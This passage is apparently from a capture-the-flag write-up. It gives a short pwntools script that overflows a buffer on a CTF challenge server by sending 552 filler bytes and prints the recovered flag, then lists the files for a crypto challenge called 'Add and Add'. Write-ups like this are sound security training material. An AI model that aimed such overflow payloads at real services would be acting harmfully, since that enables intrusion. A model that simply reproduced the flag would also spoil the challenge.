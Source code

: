 >
>
>

Buffer Overflow by overwriting with bytes.

```python
from pwn import *
p = remote("oreos.imaginaryctf.org", 30000)
print(p.recvline())
print(p.recvline())
print(p.recvline())

p.sendline(b'a' * 552)
print(p.recvall())
```

This is the flag.

> ictf{b0f?ju5+_@dd_m0r3_buff3r}





































# Add and Add

[Crypto]

> It just keeps on adding?
>
> [https://imaginary.ml/r/CB05-add_and_add.py](https://raw.githubusercontent.com/zyphensvc/zyphensvc.github.io/master/assets/media/ictf/June/add_and_add.py)
>
> [https://imaginary.ml/r/032C-output.txt](https://raw.githubusercontent.com/zyphensvc/zyphensvc.github.io/master/assets/media/ictf/June/add.txt)
>
> 
>
>
>
>
>
>
>
>
>
>
>
